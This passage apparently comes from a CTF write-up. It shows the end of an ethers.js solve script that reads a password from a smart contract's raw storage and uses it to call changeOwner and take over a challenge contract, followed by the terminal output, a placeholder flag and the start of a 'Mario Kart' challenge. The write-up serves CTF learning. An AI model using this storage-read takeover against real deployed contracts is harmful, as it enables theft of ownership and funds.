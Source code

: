 ```bash
  const secretPassword = ethers.BigNumber.from(rawSlot1);
  console.log("Leaked password:", secretPassword.toString());

  // 4. Call changeOwner(secretPassword, your address)
  const shellAbi = [
    "function changeOwner(uint256 _password, address _newOwner)",
    "function owner() view returns (address)"
  ];
  const shell = new ethers.Contract(shellAddr, shellAbi, wallet);

  const tx = await shell.changeOwner(secretPassword, wallet.address);
  console.log("Submitting changeOwner tx:", tx.hash);
  await tx.wait();

  // 5. Confirm takeover
  const newOwner = await shell.owner();
  console.log("New owner is:", newOwner);

  // 6. Verify isSolved()
  const solved = await setup.isSolved();
  console.log("Challenge solved?", solved);
}

main().catch(err => {
  console.error(err);
  process.exit(1);
});
```

ran it on terminal and got this

```bash
PS C:\Users\-\-\Desktop\ctf> node solve.js
SecureShell deployed at: 0xb5683B85A9e9Fb0b11f232c8A19cf1aBc28B4F10
Leaked password: 13377331
Submitting changeOwner tx: 0xb71277fbdbc681ae90611796782b0d13939f1df55438485ecf1cf41b674a51a1
New owner is: 0xAA7ae1fA9ecA00463700747064bC3C0c907a786F
Challenge solved? true
```

go back to the website and you'll get the flag

Flag:
```bash
UMCS{flag}
```

---

### Mario Kart
>Author: X3 Security

### Description
>Vrooom vroom Mario !!!
>
>http://116.203.176.73:4447/
>
>Attachment: mario_player_file
